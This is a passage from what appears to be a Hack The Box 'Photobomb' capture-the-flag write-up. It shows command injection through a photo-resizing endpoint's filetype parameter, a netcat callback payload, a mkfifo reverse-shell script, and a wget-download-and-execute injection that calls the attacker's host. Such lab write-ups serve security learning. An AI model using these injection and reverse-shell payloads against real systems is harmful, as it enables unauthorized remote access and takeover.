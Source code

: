 	[*] ending @ 13:54:59 /2022-10-15/
	```
	- Failed
3. After some testing, I can conclude that
	- This is a valid request
		![](Pasted%20image%2020221015162531.png)
	- `photo` - specify photo name, must match the photo that exists on the webserver, any invalid name will cause a `500 Internal Server Error - Source photo does not exist`
		![](Pasted%20image%2020221015161904.png)
	- `filetype` - specify file type (`jpg`, `png`) only, however we are able to append anything  as long as `jpg` or `png` is infront of the appended text.
	![](Pasted%20image%2020221015162415.png)
	> We can see that the request is processed `filename=andrea-de-santis-uCFuP0Gc_MM-unsplash_1x1.jpg testing 123`
	{: .prompt-info}

	- `dimensions` - specify dimension `numberxnumber`
4. Determine if `filetype` `POST` parameter is susceptible to command injection
	```
	# Payload
	photo=andrea-de-santis-uCFuP0Gc_MM-unsplash.jpg&filetype=jpg; echo "Vulnerable to Command Injection!" | nc 10.10.14.39 4444&dimensions=1x1
	```
	![](Pasted%20image%2020221015163028.png)
	```
	┌──(root💀kali)-[~/htb/photobomb]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.11.182.
	Ncat: Connection from 10.10.11.182:35828.
	Vulnerable to Command Injection!
	```
	> It is vulnerable !
	{: .prompt-info}

5. Could not Invoke reverse shell, instead we download a reverse shell payload onto `photobomb.htb` and execute it
6. Create reverse shell payload
	```bash
	#!/bin/bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.39 4444 >/tmp/f
	```
7. Host reverse shell payload
	```
	┌──(root💀kali)-[~/htb/photobomb/10.10.11.182/exploit]
	└─# python3 -m http.server 80
	```
8. Download it onto `photobomb.htb` & execute it!
	```
	# Payload
	jpg;wget -O /tmp/exploit.sh 10.10.14.39/exploit.sh; chmod 777 /tmp/exploit.sh; sh /tmp/exploit.sh
	```
9. Demo - `filetype` Command Injection
	![](wQdRpvmb8B.gif)
10. Demo - Invoke reverse shell
	![](wUaaQzhRG9.gif)